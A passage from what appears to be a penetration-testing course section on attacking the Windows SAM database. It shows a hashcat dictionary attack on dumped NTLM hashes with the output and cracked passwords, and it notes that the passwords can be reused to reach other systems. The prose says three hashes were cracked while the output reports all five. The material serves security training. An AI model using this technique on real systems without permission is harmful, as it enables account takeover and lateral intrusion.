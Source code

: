 Attacking SAM

```shell-session
frank-106@htb[/htb]$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

f7eb9c06fafaa23c4bcf22ba6781c1e2:dragon          
6f8c3f4d3869a10f3b4f0522f537fd33:iloveme         
184ecdda8cf1dd238d438c4aea4d560d:adrian          
31d6cfe0d16ae931b73c59d7e0c089c0:                
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NTLM
Hash.Target......: dumpedhashes.txt
Time.Started.....: Tue Dec 14 14:16:56 2021 (0 secs)
Time.Estimated...: Tue Dec 14 14:16:56 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    14284 H/s (0.63ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 5/5 (100.00%) Digests
Progress.........: 8192/14344385 (0.06%)
Rejected.........: 0/8192 (0.00%)
Restore.Point....: 4096/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: newzealand -> whitetiger

Started: Tue Dec 14 14:16:50 2021
Stopped: Tue Dec 14 14:16:58 2021
```

We can see from the output that Hashcat used a type of attack called a [dictionary attack](https://en.wikipedia.org/wiki/Dictionary_attack) to rapidly guess the passwords utilizing a list of known passwords (rockyou.txt) and was successful in cracking 3 of the hashes. Having the passwords could be useful to us in many ways. We could attempt to use the passwords we cracked to access other systems on the network. It is very common for people to re-use passwords across different work & personal accounts. Knowing this technique, we covered can be useful on engagements. We will benefit from using this any time we come across a vulnerable Windows system and gain admin rights to dump the SAM database.

Keep in mind that this is a well-known technique, so admins may have safeguards to prevent and detect it. We can see some of these ways [documented](https://attack.mitre.org/techniques/T1003/002/) within the MITRE attack framework.

---